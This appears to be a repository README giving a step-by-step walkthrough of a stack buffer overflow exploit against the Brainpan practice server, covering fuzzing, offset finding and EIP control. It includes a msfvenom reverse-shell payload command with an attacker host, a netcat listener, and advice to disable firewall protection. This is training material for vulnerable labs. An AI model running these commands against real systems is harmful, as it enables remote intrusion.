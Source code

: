<h1>Brainpan BOF server </h1>
<br><h2>steps</h2></br>
<h3>1.spiking</n>
<br>2.fuzzing</n>
<br>3. finding the offset
<br>4. overwriting the EIP
<br>5. finding bad characters
<br>6. finding the right modules
<br>7. Generating Shellcode</h3></br></br></br></br></br></br>
<h2> 1. Spiking </h2> 
First make sure youe firewall real protection turn off
Now run brainpan server as admin
use your spiking.spk to find Vulnerability 
script is --> 
<b> s_readline();
"s_string("TRUN ");"
s_string_variable("0");
</b>

Now use generic_send_tcp (target)IP (target)PORT spiking.spk 0 0
(if server scrash ? boom you  succeed 

<h2> 2 fuzzing</h2>
Now time to find Number of size buffer which crash server 
(user chmod +x * )
 ./brainpan.py 192.168.43.161 9999 ( here your brainpan server will crash and you will get avarage amount o buffer size
Now create pattern , why ? to find exact number of Buffer size
First create unic pattern using metasploit tool
 /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1500( here your last (brainpan.py) crash avarage number , which 
must greater.  
 Now usr offsetcalc.py to find lenght later we will find offset which is our exact buffer size in byte :D 
 ./offsetcalc.py IP PORT
get EIP value ? now use it at offset

<h2> 3 finding the offset</h2>
find offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2000 -q 35724134
[*] Exact match at offset 524
 boom ?? we get Exact Number of size which is 524

<h2>4. overwriting the EIP</h2>
Now Verify EIP Overwrite or Not By B, add B*4 and check debuger print 42424242 at EIP or not
./brainpanEIPWt.py IP PORT
 YES --> ok great

<h2>5. finding bad characters</h2>
Now find Bad chars which is use while create shellcode , actual we dont found bad chars in this servers, but dont skip this step go head
and just do practice ;) 
 ./brainpanBadChard.py IP PORT
remember how to find Bad chars ? opps no ? dont worry just do hard else catch me on insta i'll explain you :)
bad chars 

<h2>6. finding the right modules</h2>
Downloaded Mona modules ? . no ? download it  --> https://github.com/corelan/mona and add it at exact place
use command 
!mona mudules
!mona find -s "\xff\xe4" -m brainpan.dll
now find base value note it down
and make sure ur JMP ESP use Using nasm_shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

now do make sure you selected your JMP ESP make sure your base value is right 
click arrow type jump number
fire offsetverify.py
./offsetverify.py IP PORT
make sure its work you controling EIP or not if yes then go head and do shell using shellcode

control EIP done


<h2>7. Generating Shellcode</h2>
now generarte shellcode 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.216 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0a"(make sure your bad chars)


"A" * 524 + (JMP ESP value) "\xf3\x12\x17\x31"  (reverse way) +  "\x90" * 8 ( this is nops value minimum which make space between shell and JMP ESP+ shell 
make sure your nc is ready
 nc -lvnp 443 
and now fire your final code 
./finalexploit.py IP PORT

boom you will get shell 
if not then sorry please recheck all step clearly 
thanks i hope you love this repo :D 

<b>
<br>visit our official Website : https://hacksudo.com</br>
<br>hacksudo Linkedin https://www.linkedin.com/in/hack-sudo-230a871b3/</br>
<br> visit linkedin https://www.linkedin.com/in/realvilu </br>
<br><h2>Author Vishal waghmare</h2></br>
<h3>Happy Hacking :)</h3>

